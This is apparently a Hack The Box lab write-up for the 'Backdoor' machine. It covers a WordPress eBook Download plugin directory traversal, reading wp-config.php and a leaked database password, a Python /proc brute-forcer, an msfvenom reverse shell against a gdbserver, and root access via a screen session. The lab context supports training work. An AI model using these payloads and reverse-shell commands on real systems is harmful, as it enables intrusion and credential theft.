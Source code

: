 # Backdoor - HTB Write-up
<img src="https://labs.hackthebox.com/storage/avatars/085b46bff51d7bc49ec1ddb6ba8a3d36.png" width="200" height="200">

## Initial portscan
```
22/open tcp ssh
80/open tcp http
1337 open tcp waste
```

## Port 80 - Wordpress

Navigating to the website redirects to `backdoor.htb`, so add it to `/etc/hosts`

`echo "10.129.96.68 backdoor.htb" | sudo tee -a /etc/hosts`

Checking for accesible directories:
- /wp-content/plugins allows directory listing

Find the ebook-download plugin and its readme where it says `Stable tag`: `1.1`
- /wp-content/plugins/ebook-download/readme.txt

### Directory transversal
Search for vulnerability exploit and found
```powershell
Foothold
Now, as we have the version info for the plugin, we could try doing a simple Google search to check for any
available exploits for this plugin version.
Sure enough, we landed on a Directory Traversal Exploit for this plugin.
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7
[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================
[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
=====================================
```
#### Testing the exploit
`http://10.129.96.68/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

```
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' ); x
```

## Port 1337
Coming back to the port 1337, any attempt to use telnet or netcat to connect to the port are unsuccesful.

We are able to LFI to we can try to read the process information. Lets brute force the `/proc/{PID}/cmdline` file.

```python
import requests
for i in range(1, 1000):
    r = requests.get("http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"+str(i)+"/cmdline")
    out = (r.text.replace('/proc/' + str(i) + '/cmdline','').replace('<script>window.close()</script>','').replace('\00',' '))
    if len(out) > 1:
        print("PID"+str(i) + " : " + out)
```

Analyze the output of the files and find the desired 1337 port.

`853/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done`

So... the port is a gdb server!!

### Exploit
Search the internet and find gdb version 9.2 RCE exploit.

Let's first generate our shellcode:
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.1 LPORT=1338 PrependFork=true -o rev.bin
```

Start a listener on port 1338
```shell
nc -nlvp 1338
```

Run the exploit:
```shell
python3 gdb_rce.py 10.129.96.68:1337 rev.bin
```

Now we have access to `user`. Normalize the shell.

## Privilege Escalation
List process with `ps -ef`. 

There is a process that is creating a `screen` process in a do-while loop.

```
PID971 : /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done 
PID973 : /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
```

Lets try t find the screen file:
- `find /var/run/screen/S-root -empty -exec screen -dmS root ;`

Easy, just attach to the screen.

```
screen -x root/root
```
